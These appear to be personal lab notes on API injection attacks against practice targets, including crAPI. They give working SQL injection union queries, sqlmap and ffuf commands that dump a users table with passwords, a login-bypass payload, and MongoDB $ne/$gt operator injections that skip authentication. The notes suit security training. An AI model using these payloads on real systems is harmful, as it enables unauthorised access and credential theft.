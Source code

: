 
Service running on port 80

### SQL Injection

Manipulate SQL queries made to a database

Query : GET /v1/001.php?roast=3+or+1%3d1%23 HTTP/1.1

We have SQL injection here

Try to find number of columns using order by
Order by 5 gives error and order by 4 dosent so we have 4 columns

Query : GET /v1/001.php?roast=3+union+select+database(),user(),3,4+from+information_schema.tables%23 HTTP/1.1

Response : 
{"ID":"api_injection","name":"apiInjection@172.18.0.2","origin":"3","roast_level":"4"}]

So Database = api_injection
     User = apiInjection@172.18.0.2

Query : GET /v1/001.php?roast=3+union+select+database(),user(),table_name,4+from+information_schema.tables%23 HTTP/1.1

![[sqli1.png]]


We have a table named users

Query : GET /v1/001.php?roast=3+union+select+1,2,column_name,4+from+information_schema.columns%23 HTTP/1.1

![[sqli2.png]]

We have columns named username and password

Query : GET /v1/001.php?roast=3+union+select+1,username,password,4+from+users%23 HTTP/1.1


![[sqli3.png]]


So 

admin : iLikePasta
jeremy : jeremyspassword

We found username and passwords using manual exploitation

Using ffuf

```sh
ffuf -c -w /usr/share/wordlists/seclists/SecLists-master/Fuzzing/SQLi/Generic-SQLi.txt:FUZZ -request req.txt -request-proto http
```

SQLMap

```sh
sqlmap -r req.txt --batch --dbs mysql --ignore-code 401 
```

Found Database

api_injection

```sh
sqlmap -r req.txt --batch --dbs mysql --ignore-code 401 -D api_injection --tables
```

Tables : coffee and users

```sh
sqlmap -r req.txt --batch --dbs mysql --ignore-code 401 -D api_injection -T users --dump
```

And we get all the usernames and passwords


---

### SQL Injection Login bypass

{"username":"admin","password":"admin"}

Try to just put single quote to test for SQL injection
Then try to use payloads like OR 1=1#


---


### NoSQL Injection

MongoDB :

We can add columns on the fly, but they need not have a value all the time for every entry.
Some entries may have 10 attributes, some may only have 5, so its flexible since it allows this.

Typical login query might look something like

```sh
db.users.find({name:'username',password:'password'})
```

users is the name of collection/tables

For Injection attack we use JSON operator

$ne : not equal
So we can make the query like

```sh
db.users.find({name:'username',password:{'$ne':'0'}})
```

As long as we not put the correct password, we are fine, so no need to add the 0 as well

Request : GET /login?username=admin&password=asdfff HTTP/1.1

username and password being sent via URI, this in itself is a finding and should be reported

Request : GET /login?username=admin&password\[\$ne]=asdfff HTTP/1.1
***JSON equivalent = {"username":"admin","password":{"$ne":"asdfff"}}***

And we get successful login


---

### Challenge

in crAPI

Add coupon feature

```sh
ffuf -c -w /usr/share/wordlists/seclists/SecLists-master/Fuzzing/SQLi/Generic-SQLi.txt:FUZZ -request sqliChallenge.txt -request-proto http
```

SQL injection not present

Try for NoSQL Injection

```sh
ffuf -c -w /usr/share/wordlists/seclists/SecLists-master/Fuzzing/Databases/NoSQL.txt:FUZZ -request sqliChallenge.txt -request-proto http
```

    * FUZZ: {"$gt": ""}
Gets status 200

![[challenge.png]]

